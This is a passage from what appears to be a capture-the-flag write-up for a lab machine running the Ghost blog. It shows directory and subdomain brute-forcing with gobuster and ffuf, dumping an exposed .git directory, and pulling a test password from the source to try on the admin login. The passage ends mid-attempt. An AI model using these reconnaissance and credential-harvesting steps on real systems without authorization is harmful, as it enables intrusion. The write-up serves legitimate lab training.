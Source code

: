 We find a website running Ghost, a blogging platform. We use `gobuster` to enumerate directories:
```bash
gobuster dir -u http://linkvortex.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -xl 0
```
```
/assets               (Status: 301) [Size: 179] [--> /assets/]
/LICENSE              (Status: 200) [Size: 1065]
```

We look for subdomains using `ffuf`:
```bash
ffuf -u http://linkvortex.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 200 -H "Host: FUZZ.linkvortex.htb" -fc 301```
```
```
dev                     [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 51ms]
```

We add `dev.linkvortex.htb` to our `/etc/hosts` file:

```bash
echo "10.10.11.47 dev.linkvortex.htb" | sudo tee -a /etc/hosts
```

We find a development instance of the Ghost blog. We use `ffuf` to enumerate directories:
```bash
ffuf -u http://dev.linkvortex.htb/FUZZ/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 200
```
```
.hta                    [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 44ms]
.git/logs/              [Status: 200, Size: 868, Words: 59, Lines: 16, Duration: 46ms]
.git                    [Status: 200, Size: 2796, Words: 186, Lines: 26, Duration: 46ms]
```

We find a `.git` directory. We use `git-dumper` to download the repository:

```bash
git clone https://github.com/arthaud/git-dumper
cd git-dumper
python3 gitdumper.py http://dev.linkvortex.htb/.git/ dumped
```

We find a admin test file with some credentials in `ghost/core/test/regression/api/admin/authentication.test.js`:

```javascript
it('complete setup', async function () {
    const email = 'test@example.com';
    const password = 'OctopiFociPilfer45';
```

## User Exploitation

We try to login to the Ghost admin panel on `http://linkvortex.htb/ghost` with the credentials `test@example.com:OctopiFociPilfer45` but are unsuccessful: